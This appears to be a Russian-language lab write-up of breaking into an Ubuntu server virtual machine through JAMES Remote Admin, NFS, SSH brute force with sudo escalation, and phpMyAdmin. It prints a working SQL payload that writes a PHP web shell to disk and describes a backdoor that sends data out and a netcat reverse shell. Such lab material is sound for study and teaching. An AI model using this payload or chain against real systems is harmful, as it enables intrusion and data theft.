# Взлом виртуальной машины с ubuntu сервером

Для начала я просканировал виртуальную машину с помощью nmap, что бы выявить уязвимости в установленном ПО и открытых портах.



## Уязвимость james

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине присутствует JAMES Remote Admin. Я попробовал ввести логин/пароль root/root (так как это логин и пароль по умолчанию установленный в James Remode Admin). Админ не поменял этот пароль, и в итоге я смог войти в пользователя root. Зная уязвимость james remote admin (такую как возможность переходить в предыдущую директорию), я добавил пользователя /etc/bash_completion.d, благодаря чему у меня появится возможность запускать команды на машине удалённо при входе пользователя в систему. 

 

Была настроена команда `uname -a` (она выводит на экран детальную информацию об системе), вывод которой передавался на ip адрес атакующей машины, на порт 3333, который на ней прослушивался.



Теперь при входе пользователя в систему атакующей машине будет передана детальная информация об АРМ пользователя.

## Уязвимость nfs

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине на порте 2049 стоит уязвимая весрия nfs. Эти выводы были сделаны из:

* Подбробного описания версии nfs, при помощи команды `rpcinfo`.



* Результата настроенного сканера на уязвимости nfs.



Это значит, что сервер позволяет монтировать директории (которые сканер определил как уязвимые) сторонними пользователями. Из этого следует, что мы можем примонтировать эти директории без каких либо проблем.

 

Теперь мы знаем пароль пользователя `user1`, так как мы смогли найти его в файлах пользователя. Однако нам нужен доступ к root на непосредственно самой машине (потому что область нашего воздействия лишь директория /home, да и мы не можем запускать наши утилиты на атакуемой машине, например `uname -a` выдаст информацию о нашей системе, а не о примонтированной), что бы скомпрометировать важную информацию с сервера. Для этого я загрузил полезную нагрузку в виде си исходника, скомпилировал её и дал ей атрибут доступа, с помощью которого она сможет запускаться от имени того, кто её создал, а не того, кем она была запущена.



Осталось только зайти по ssh на `user1`, и запустить полезную нагрузку. Поскольку нам уже известен пароль, процесс входа можно пропустить в виду его очевидности.



Как видите, пользователю `user1` запрещено заходить на root пользователя, по этому мы запускаем полезную нагрузку, в результате выполнения которой нам обеспечивается доступ к root.

 

Мы выполнили главную задачу: получили полный доступ к системе.

## Уязвимость ssh

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине установлена программа `ssh` на порту 22. Попробуем воспроизвести брутфорс атаку и подобрать логин и пароль к ssh.



Атака прошла успешно.



После того, как мы подобрали пароль - можно войти в ssh.



Поскольку мы не можем зайти от рута, пробуем искать обходные варианты. Для начала посмотрим, какие программы нам разрешено запускать от имени суперпользователя.



Как мы видим, мы можем запустить vi и python.

### Vi

Тут всё просто: в vi мы можем использовать консольные команды прямо в программе, собственно так мы и делаем. На следующем скриншоте вывод команды `whoami` и `cat /home/server/Important.txt`.



### Python

Здесь нам нужно импортировать библиотеку os, а затем с помощью модуля "system" запустить команду `cat /home/server/Important.txt`.




## Уязвимость phpmyadmin

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине установлен сервер apache на порте 80. С помощью утилиты `nikto` пытаемся узнать что установлено на сервере.



Из результата исполнения программы можно сделать вывод, что на сервере установлен phpmyadmin. Попытаемся подобрать пароль с помощью метода brootforce. Для начала настроим эксплойт.



После запуска эксплойт успешно завершил атаку.



Теперь заходим в phpmyadmin.



Затем нам надо сделать sql инъекцию с подготовленным кодом, которая создаст файл на сервере, позволяющий запустить консоль, исполняющюю команды на серверном устройстве. Вот сам код:


``` SQL 
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\"
ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\"
VALUE=\"Execute\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?>
</pre></BODY></HTML>"

INTO OUTFILE '/var/www/phpmyadmin/cmd.php'
```

Внедрение SQL инъекции прошло успешно.



Первоначальный доступ получен. Далее нам надо получить удалённый доступ к терминалу непосредственно из терминала атакующей машины, а после root права.

Для начала узнаем подброную информацию о системе через веб оболочку.



Теперь попробуем найти эксплойт к этой версии дистрибутива линукса ubuntu.


Осталось узнать где его можно достать.



После того, как у нас на руках есть готовый эксплойт нужно найти директории, у которых есть права доступа 777, что бы можно было гарантировано дать право на запуск эксплойту.



Как мы видим, на сервере присутствует директория scripts, в которой можно безпрепятственно менять параметры доступа у файлов. Необходимо загрузить эксплойт. Открываем локальный сервер на python на атакующей машине в директории с эксплойтом, а затем скачиваем его в директорию scripts.



Попытка скачивания эксплойта с сервера прошла успешно.



Компилируем, выдаём максимальные права доступа и запускаем эксплойт с целью проверки работоспособности в веб оболочке.



Вредоносный код завершил свою работу успешно. Теперь это всё надо сделать на терминале атакующей машины для получения полного доступа к системе. Для начала откроем порт 8888 на прослушивание входящих соеденений, затем запустим файл /bin/bash с помощью утилиты `netcat` на атакующей машине.



Теперь осталось проделать операцию запуска эксплойта ещё раз в терминале атакующей машины.



Мы получили полный доступ к системе и скомпрометировали важную информацию с сервера.